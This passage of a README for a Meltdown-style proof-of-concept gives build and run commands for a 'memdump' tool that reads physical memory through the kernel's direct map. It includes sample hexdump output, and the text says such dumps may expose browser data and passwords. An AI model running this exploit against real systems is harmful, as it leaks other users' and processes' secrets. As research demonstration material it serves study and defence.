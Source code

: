 After a few seconds, you should get an output similar to this:
```
[+] Physical address       : 0x390fff400
[+] Physical offset        : 0xffff880000000000
[+] Reading virtual address: 0xffff880390fff400

If you can read this, this is really bad
```


### Demo #5: Dump the memory (`memdump`)

This demo dumps the content of the memory. As demo #3 and #4, it uses the direct physical map, to dump the contents of the physical memory in a hexdump-like format. 

Again, as the physical memory contains a lot of non-human-readable content, we provide a test tool to fill large amounts of the physical memory with human-readable strings. 

#### Build and Run

For the demo, first run `memory_filler` to fill the memory with human-readable strings. The first argument is the amount of memory (in gigabytes) to fill. 
```bash
make
./memory_filler 9
```

Then, run the `memdump` tool to dump memory contents. If you executed `memory_filler` before, you should see some string fragments. 
If you have Firefox or Chrome with multiple tabs running, you might also see parts of the websites which are open or were recently closed. 

The first parameter is the physical address at which the dump should begin (leave empty to start at the first gigabyte). If you do not have KASLR disabled,  the second parameter is the offset of the direct physical map.

```bash
taskset 0x1 ./memdump 0x240000000 0xffff880000000000 # start at 9 GB
```

You should get a hexdump of parts of the memory (potentially even containing secrets such as passwords, see example in the paper), e.g.:

```
 240001c9f: | 00 6d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .m.............. |
 24000262f: | 00 7d 00 00 00 00 00 00 00 00 00 00 00 00 00 00 | .}.............. |
 24000271f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 6e 20 75 | ............en u |
 24000272f: | 73 65 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 | ser space and ke |
 24000273f: | 72 6e 65 6c 57 65 6c 63 6f 6d 65 20 74 6f 20 74 | rnelWelcome to t |
 24000298f: | 00 61 72 79 20 62 65 74 77 65 65 6e 20 75 73 65 | .ary between use |
 24000299f: | 72 20 73 70 61 63 65 20 61 6e 64 20 6b 65 72 6e | r space and kern |
 2400029af: | 65 6c 42 75 72 6e 20 61 66 74 65 72 20 72 65 61 | elBurn after rea |
 2400029bf: | 64 69 6e 67 20 74 68 69 73 20 73 74 72 69 6e 67 | ding this string |
 240002dcf: | 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c8 | ................ |
 2400038af: | 6a 75 73 74 20 73 70 69 65 64 20 6f 6e 20 61 00 | just spied on a. |
 240003c8f: | 00 00 1e 00 00 00 00 00 00 00 00 00 00 00 00 00 | ................ |
 24000412f: | 00 00 00 00 00 00 00 00 00 00 00 00 65 74 73 2e | ............ets. |
 24000413f: | 2e 2e 57 65 6c 63 6f 6d 65 20 74 6f 20 74 68 65 | ..Welcome to the |
 2400042ff: | 00 00 00 00 00 00 00 00 00 6e 67 72 61 74 75 6c | .........ngratul |
 24000430f: | 61 74 69 6f 6e 73 2c 20 79 6f 75 20 6a 75 73 74 | ations, you just |
 24000431f: | 20 73 70 69 65 64 20 6f 6e 20 61 6e 20 61 70 70 |  spied on an app |
```
